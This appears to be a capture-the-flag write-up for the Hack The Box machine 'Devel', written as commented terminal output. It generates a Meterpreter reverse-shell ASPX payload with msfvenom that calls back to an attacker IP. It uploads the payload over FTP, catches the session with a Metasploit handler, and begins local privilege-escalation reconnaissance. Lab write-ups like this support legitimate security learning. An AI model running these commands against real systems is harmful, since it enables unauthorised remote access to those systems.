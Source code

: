     $ curl -i http://10.10.10.5/
-----

    HTTP/1.1 200 OK
    Content-Type: text/html
    Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
    Accept-Ranges: bytes
    ETag: "37b5ed12c9fd21:0"
    Server: Microsoft-IIS/7.5
    X-Powered-By: ASP.NET
    Date: Sat, 07 Aug 2021 09:16:18 GMT
    Content-Length: 689
// ASP.NET means that we can use .aspx files

// Lets generate aspx payload with MsfVenom

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.8 LPORT=1444 -f aspx > devel.aspx
// And move the file to target with ftp 'put' command

    ftp> put devel.aspx
    
// Lets open a listiner with Metasploit multi/handler

    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LPORT 1444
    LPORT => 1444
    msf6 exploit(multi/handler) > set LHOST 10.10.17.8
    LHOST => 10.10.16.197
    msf6 exploit(multi/handler) > set ExitOnSession false 
    ExitOnSession => false
    msf6 exploit(multi/handler) > exploit -j
    
// Now that all set we can navigate to http://10.10.10.5/devel.aspx

    [*] Meterpreter session 1 opened (10.10.17.8:1444 -> 10.10.10.5:49239) at 2021-08-07 10:26:16 +0000

// We got connection !

    meterpreter > getuid
    Server username: IIS APPPOOL\Web

    meterpreter > sysinfo
    Computer        : DEVEL
    OS              : Windows 7 (6.1 Build 7600).
    Architecture    : x86
    System Language : el_GR
    Domain          : HTB
    Logged On Users : 0
    Meterpreter     : x86/windows

// Lest use Metasploit module '/multi/recon/local_exploit_suggester'
    
    meterpreter > background
    
    msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester

    msf6 post(multi/recon/local_exploit_suggester) > set session 1
    session => 1
    msf6 post(multi/recon/local_exploit_suggester) > exploit
